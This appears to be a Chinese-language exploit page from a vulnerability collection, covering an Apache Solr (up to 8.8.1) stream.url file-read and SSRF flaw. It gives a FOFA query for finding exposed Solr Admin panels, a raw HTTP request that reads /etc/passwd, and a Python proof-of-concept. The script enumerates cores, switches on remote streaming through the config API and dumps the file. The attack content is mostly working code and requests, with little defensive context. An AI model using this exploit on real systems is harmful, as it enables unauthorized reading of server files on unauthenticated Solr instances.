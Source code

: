 # Apache Solr stream.url任意文件读取漏洞

Apache Solr的某些功能存在过滤不严格，在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或文件读取漏洞。

FOFA:

```
title="Solr Admin"
```

可以参考Skay的文章：https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ   注意得选择正确的core

影响版本：

Apache Solr <= 8.8.1

访问 Solr Admin 管理员页面，获取core信息

```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```

**文件读取：**

```bash
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

Poc.py:

```py
#!/usr/bin/python
# coding: UTF-8
import requests

host="http://192.168.1.79:8081/"
if host[-1]=='/':
    host=host[:-1]
def get_core(host):
    url=host+'/solr/admin/cores?indexInfo=false&wt=json'
    core_data=requests.get(url,timeout=3).json()
    if core_data['status']:
        core=core_data['status'].keys()[0]
        jsonp_data={"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":'true'}}
        requests.post(url=host+"/solr/%s/config"%core,json=jsonp_data)

        result_data=requests.post(url=host+'/solr/%s/debug/dump?param=ContentStreams'%core,data={"stream.url":"file:///etc/passwd"}).json()
        if result_data['streams']:
            print result_data['streams'][0]['stream']
    else:
        exit("不存在此漏洞")
get_core(host)
```

**ref：**

* https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ
* https://mp.weixin.qq.com/s/2D3bLaUVD6Lz7VqRu8dOGA
* https://www.o2oxy.cn/3227.html